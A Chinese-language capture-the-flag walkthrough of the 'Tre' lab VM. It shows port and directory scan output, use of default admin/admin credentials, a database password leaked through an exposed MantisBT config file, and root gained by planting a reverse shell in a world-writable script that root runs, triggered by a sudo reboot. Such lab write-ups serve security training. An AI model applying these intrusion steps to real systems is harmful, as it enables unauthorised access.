# Tre
难度： 中等
## 信息收集
### 端口枚举
```
// 全端口
┌──(aaron㉿aacai)-[~/Desktop/Tre]
└─$ sudo nmap -p- 192.168.146.77
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 12:58 HKT
Nmap scan report for 192.168.146.77
Host is up (0.00032s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8082/tcp open  blackice-alerts
MAC Address: 00:0C:29:91:D4:A8 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds

// 指定端口
┌──(aaron㉿aacai)-[~/Desktop/Tre]
└─$ sudo nmap -p22,80,8082 -sV -A 192.168.146.77
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-01 12:58 HKT
Nmap scan report for 192.168.146.77
Host is up (0.00028s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
MAC Address: 00:0C:29:91:D4:A8 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.28 ms 192.168.146.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
                                                                                
┌──(aaron㉿aacai)-[~/Desktop/Tre]
└─$ 

```
### Web 目录枚举
- 80端口

Dirsearch
```
Target: http://192.168.146.77/
[13:04:20] 200 -    5KB - /adminer.php
[13:04:24] 301 -  314B  - /cms  ->  http://192.168.146.77/cms/
[13:04:24] 302 -    0B  - /cms/  ->  site/
[13:04:31] 200 -  164B  - /index.html
[13:04:33] 200 -   87KB - /info.php
[13:04:44] 403 -  279B  - /server-status/
[13:04:44] 403 -  279B  - /server-status
[13:04:46] 401 -  461B  - /system
[13:04:46] 401 -  461B  - /system/
[13:04:46] 401 -  461B  - /system/cache/
[13:04:46] 401 -  461B  - /system/cron/cron.txt
[13:04:46] 401 -  461B  - /system/expressionengine/config/config.php
[13:04:46] 401 -  461B  - /system/log/
[13:04:46] 401 -  461B  - /system/logs/
[13:04:46] 401 -  461B  - /system/storage/
[13:04:47] 401 -  461B  - /system/error.txt
[13:04:47] 401 -  461B  - /system/expressionengine/config/database.php

```
nikto
```
└─$ nikto -h http://192.168.146.77/       
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.77
+ Target Hostname:    192.168.146.77
+ Target Port:        80
+ Start Time:         2022-08-01 13:06:44 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: a4, size: 5a56bc0e14dfe, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Default account found for 'Restricted Content' at /system/ (ID 'admin', PW 'admin'). Generic account discovered..
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ X-XSS-Protection header has been set to disable XSS Protection. There is unlikely to be a good reason for this.
+ 7941 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2022-08-01 13:07:18 (GMT8) (34 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
#### 在这里发现了/system的密码为admin admin
dirb
```
└─$ dirb "http://192.168.146.77/" /usr/share/wordlists/dirb/big.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  1 14:10:44 2022
URL_BASE: http://192.168.146.77/
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.146.77/ ----
==> DIRECTORY: http://192.168.146.77/cms/                                                                      
==> DIRECTORY: http://192.168.146.77/mantisbt/                                                                 
+ http://192.168.146.77/server-status (CODE:403|SIZE:279)                                                      
+ http://192.168.146.77/system (CODE:401|SIZE:461)                                                             
                                                                                                               
---- Entering directory: http://192.168.146.77/cms/ ----
==> DIRECTORY: http://192.168.146.77/cms/cache/                                                                
==> DIRECTORY: http://192.168.146.77/cms/core/                                                                 
==> DIRECTORY: http://192.168.146.77/cms/custom/                                                               
==> DIRECTORY: http://192.168.146.77/cms/extensions/                                                           
==> DIRECTORY: http://192.168.146.77/cms/site/                                                                 
==> DIRECTORY: http://192.168.146.77/cms/templates/                                                            
==> DIRECTORY: http://192.168.146.77/cms/vendor/                                                               
                                                                                                               
---- Entering directory: http://192.168.146.77/mantisbt/ ----
==> DIRECTORY: http://192.168.146.77/mantisbt/admin/                                                           
==> DIRECTORY: http://192.168.146.77/mantisbt/api/                                                             
==> DIRECTORY: http://192.168.146.77/mantisbt/config/                                                          
==> DIRECTORY: http://192.168.146.77/mantisbt/core/                                                            
==> DIRECTORY: http://192.168.146.77/mantisbt/css/                                                             
==> DIRECTORY: http://192.168.146.77/mantisbt/doc/                                                             
==> DIRECTORY: http://192.168.146.77/mantisbt/fonts/                                                           
==> DIRECTORY: http://192.168.146.77/mantisbt/images/                                                          
==> DIRECTORY: http://192.168.146.77/mantisbt/js/                                                              
==> DIRECTORY: http://192.168.146.77/mantisbt/lang/                                                            
==> DIRECTORY: http://192.168.146.77/mantisbt/library/                                                         
==> DIRECTORY: http://192.168.146.77/mantisbt/plugins/                                                         
==> DIRECTORY: http://192.168.146.77/mantisbt/scripts/                                                         
==> DIRECTORY: http://192.168.146.77/mantisbt/vendor/                                                          
                                                           
---- Entering directory: http://192.168.146.77/cms/core/ ----
==> DIRECTORY: http://192.168.146.77/cms/core/admin/                                                           
==> DIRECTORY: http://192.168.146.77/cms/core/feeds/                                                           
==> DIRECTORY: http://192.168.146.77/cms/core/inc/                                                         
---- Entering directory: http://192.168.146.77/cms/core/admin/ ----
==> DIRECTORY: http://192.168.146.77/cms/core/admin/ajax/                                                      
==> DIRECTORY: http://192.168.146.77/cms/core/admin/css/                                                       
==> DIRECTORY: http://192.168.146.77/cms/core/admin/email/                                                     
==> DIRECTORY: http://192.168.146.77/cms/core/admin/images/                                                    
==> DIRECTORY: http://192.168.146.77/cms/core/admin/js/                                                        
==> DIRECTORY: http://192.168.146.77/cms/core/admin/layouts/                                                   
==> DIRECTORY: http://192.168.146.77/cms/core/admin/modules/                                                   
==> DIRECTORY: http://192.168.146.77/cms/core/admin/pages/                                                     
```

nikto

```

┌──(aaron㉿aacai)-[~/Desktop/Tre]
└─$ nikto -h http://192.168.146.77:8082
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.77
+ Target Hostname:    192.168.146.77
+ Target Port:        8082
+ Start Time:         2022-08-01 13:08:06 (GMT8)
---------------------------------------------------------------------------
+ Server: nginx/1.14.2
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ 7917 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2022-08-01 13:08:19 (GMT8) (13 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
### Web 页面信息收集
直接访问80端口是一个竹子的图片
<br>

<br>
访问/cms是一个blog的主页

访问adminer.php是一个数据库登录界面

<br>
访问/system页面之后输入密码发现是一个登录界面

尝试注册发现这里并没有输入密码的选项, 而是选择发送邮件

忘记密码也是需要邮箱地址

尝试其他方案
<br>
使用nikto查看一下目录下的信息
```
└─$ nikto -h "http://192.168.146.77/system"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.77
+ Target Hostname:    192.168.146.77
+ Target Port:        80
+ Start Time:         2022-08-01 13:40:20 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Default account found for 'Restricted Content' at /system/ (ID 'admin', PW 'admin'). Generic account discovered..
+ Root page / redirects to: http://192.168.146.77/system/login_page.php
+ OSVDB-3268: /system/scripts/: Directory indexing found.
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ OSVDB-3268: /system/config/: Directory indexing found.
+ /system/config/: Configuration information may be available remotely.
+ Cookie MANTIS_STRING_COOKIE created without the httponly flag
+ OSVDB-3268: /system/doc/: Directory indexing found.
+ OSVDB-48: /system/doc/: The /doc/ directory is browsable. This may be /usr/doc.
+ OSVDB-3268: /system/css/: Directory indexing found.
+ OSVDB-3092: /system/css/: This might be interesting...
+ OSVDB-3268: /system/library/: Directory indexing found.
+ OSVDB-3092: /system/library/: This might be interesting...
+ OSVDB-3268: /system/images/: Directory indexing found.
+ OSVDB-3268: /system/api/soap/: Directory indexing found.
+ /system/composer.json: PHP Composer configuration file reveals configuration information - https://getcomposer.org/
+ /system/composer.lock: PHP Composer configuration file reveals configuration information - https://getcomposer.org/
+ 8751 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2022-08-01 13:40:39 (GMT8) (19 seconds)
---------------------------------------------------------------------------
```
在/doc目录下找到Admin-Guide, 发现版本号为2.0

去google搜索是否有漏洞时, 并没有发现有相关版本漏洞
<br>

<br>
访问一下/mantisbt/config/

发现了一个.txt文件
<br>
打开之后发现数据库的密码!

<br>
登录成功

查看user表

得到密码
## 突破边界
使用ssh登录
```
└─$ ssh tre@192.168.146.77                      
tre@tre:~$ ls
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown

```
使用sudo -l之后可以看到我们可以不需要密码调用/sbin/shutdown
<br>
使用pspy查看一下系统进程
<br>

<br>
在这里可以看到系统不断在运行check-system, 查看一下这个文件的内容
```
tre@tre:/tmp$ ls -al /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ cat /usr/bin/check-system 
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$ 

```
修改文件内容, 把反弹shell语句插入进去
<br>

<br>
然后sudo shutdown -r now重启
<br>

```
root@tre:/# cd ~
cd ~
root@tre:/root# ls
ls
root.txt
root@tre:/root# cat root.txt
cat root.txt
{SunCSR_Tr3_Viet_Nam_2020}
root@tre:/root# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:91:d4:a8 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.77/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 71838sec preferred_lft 71838sec
    inet6 fe80::20c:29ff:fe91:d4a8/64 scope link 
       valid_lft forever preferred_lft forever
root@tre:/root# whoami
whoami
root
root@tre:/root# id
id
uid=0(root) gid=0(root) groups=0(root)
root@tre:/root# 

```

拿到shell